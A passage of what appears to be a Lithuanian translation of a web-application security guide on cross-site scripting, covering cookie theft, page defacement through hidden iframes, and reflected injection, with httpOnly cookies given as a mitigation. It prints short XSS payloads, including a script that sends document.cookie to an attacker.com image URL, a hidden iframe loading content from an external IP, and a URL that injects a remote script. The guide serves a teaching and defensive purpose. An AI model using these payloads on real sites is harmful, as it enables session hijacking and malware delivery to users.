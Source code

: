 ```html
<script>document.write(document.cookie);</script>
```

Žinoma, tai nenaudinga puolėjui, nes auka matys savo slapuką. Kitas pavyzdys bandys įkelti vaizdą iš URL http://www.attacker.com/ kartu su slapuku. Žinoma, šis URL neegzistuoja, todėl naršyklė nieko nerodo. Tačiau puolėjas gali peržiūrėti savo internetinio serverio prieigos žurnalo failus ir pamatyti aukos slapuką.

```html
<script>document.write('<img src="http://www.attacker.com/' + document.cookie + '">');</script>
```

www.attacker.com žurnalo failai atrodys taip:

```
GET http://www.attacker.com/_app_session=836c1c25278e5b321d6bea4f19cb57e2
```

Galite sumažinti šiuos puolimus (akivaizdžiu būdu), pridedant **httpOnly** žymą prie slapukų, kad `document.cookie` nebūtų galima skaityti naudojant JavaScript. HTTP tik slapukai gali būti naudojami nuo IE v6.SP1, Firefox v2.0.0.5, Opera 9.5, Safari 4 ir Chrome 1.0.154 versijų. Tačiau kiti, senesni naršyklių (pvz., WebTV ir IE 5.5 Mac) gali sukelti puslapio įkėlimo nesėkmę. Būkite įspėti, kad slapukai [vis tiek bus matomi naudojant Ajax](https://owasp.org/www-community/HttpOnly#browsers-supporting-httponly).

##### Suteršimas

Suteršus interneto puslapį, puolėjas gali padaryti daugybę dalykų, pavyzdžiui, pateikti netikrą informaciją arba suklaidinti auką, nukreipdamas ją į savo interneto svetainę, kad pavogtų slapuką, prisijungimo duomenis ar kitus jautrius duomenis. Populiariausias būdas yra įtraukti kodą iš išorinių šaltinių naudojant iframes:

```html
<iframe name="StatPage" src="http://58.xx.xxx.xxx" width=5 height=5 style="display:none"></iframe>
```

Tai įkelia bet kokį HTML ir/arba JavaScript iš išorinio šaltinio ir įterpia jį kaip svetainės dalį. Šis `iframe` paimtas iš tikrųjų puolimo prieš teisėtus Italijos svetainių naudojant [Mpack puolimo rėmą](https://isc.sans.edu/diary/MPack+Analysis/3015). Mpack bando įdiegti kenksmingą programinę įrangą per saugumo spragas naršyklėje - labai sėkmingai, 50% puolimų pavyksta.

Specializuotesnis puolimas galėtų uždengti visą interneto svetainę arba rodyti prisijungimo formą, kuri atrodo taip pat kaip ir svetainės originali, bet perduoda naudotojo vardą ir slaptažodį į puolėjo svetainę. Arba tai gali naudoti CSS ir/arba JavaScript, kad paslėptų teisėtą nuorodą internetinėje programoje ir rodytų kitą vietą, kuri nukreipia į netikrą svetainę.

Atspindėti įterpimo puolimai yra tie, kai įterpimo dalis nėra saugoma, kad vėliau būtų pateikta aukai, bet įtraukiama į URL. Ypač paieškos formos nesugeba išvengti paieškos eilutės. Ši nuoroda pateikė puslapį, kuriame teigiama, kad "George Bush paskyrė 9 metų berniuką pirmininku...":

```
http://www.cbsnews.com/stories/2002/02/15/weather_local/main501644.shtml?zipcode=1-->
  <script src=http://www.securitylab.ru/test/sc.js></script><!--
```

##### Gynyba

_Itin svarbu filtruoti kenksmingą įvestį, tačiau taip pat svarbu apsaugoti interneto programos išvestį_.
